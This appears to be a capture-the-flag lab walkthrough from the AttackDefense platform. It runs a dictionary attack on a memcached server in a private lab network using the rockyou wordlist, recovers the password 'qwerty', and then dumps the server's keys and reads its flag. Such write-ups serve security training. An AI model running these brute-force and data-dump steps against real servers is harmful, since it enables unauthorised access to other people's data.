 #### 2. Dictionary Attack

----

###### Attacker Info

```sh
root@attackdefense:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.1.3  netmask 255.255.255.0  broadcast 10.1.1.255
        ether 02:42:0a:01:01:03  txqueuelen 0  (Ethernet)
        RX packets 82  bytes 8083 (7.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 76  bytes 325376 (317.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.39.155.2  netmask 255.255.255.0  broadcast 192.39.155.255
        ether 02:42:c0:27:9b:02  txqueuelen 0  (Ethernet)
        RX packets 21  bytes 1682 (1.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 2076 (2.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 2076 (2.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@attackdefense:~#
```

----

###### Attack

* Find the password of memcached user "student". Use /usr/share/wordlists/rockyou.txt.gz wordlist.

```sh
root@attackdefense:~/tools/scripts/memcache# cp /usr/share/wordlists/rockyou.txt.gz .
root@attackdefense:~/tools/scripts/memcache# gunzip rockyou.txt.gz
root@attackdefense:~/tools/scripts/memcache# ls
memcache-dictionary-attack.sh  rockyou.txt
root@attackdefense:~/tools/scripts/memcache# 
```

```sh
root@attackdefense:~/tools/scripts/memcache# bash memcache-dictionary-attack.sh 192.39.155.3 student rockyou.txt
Trying 123456
Trying 12345
Trying 123456789
Trying password
Trying iloveyou
Trying princess
Trying 1234567
Trying rockyou
Trying 12345678
Trying abc123
Trying nicole
Trying daniel
Trying babygirl
Trying monkey
Trying lovely
Trying jessica
Trying 654321
Trying michael
Trying ashley
Trying qwerty
Password Found: qwerty
root@attackdefense:~/tools/scripts/memcache#
```

Password of memcached user `"student"` &rarr; `qwerty`

----

* Find the number of key value pairs on the memcached server.

```sh
root@attackdefense:~/tools/scripts/memcache# memcdump --servers=192.39.155.3 --username=student --password=qwerty | wc -l
9
root@attackdefense:~/tools/scripts/memcache#
```

Number of key value pairs on the memcached server &rarr; `9`

----

* Find the value stored in key "flag" on the memcached server.

```sh
root@attackdefense:~/tools/scripts/memcache# memccat --servers=192.39.155.3 --username=student --password=qwerty flag
61832366e1f912c700181f829b6a0268
root@attackdefense:~/tools/scripts/memcache#
```

Flag &rarr; `61832366e1f912c700181f829b6a0268 `

----

EOF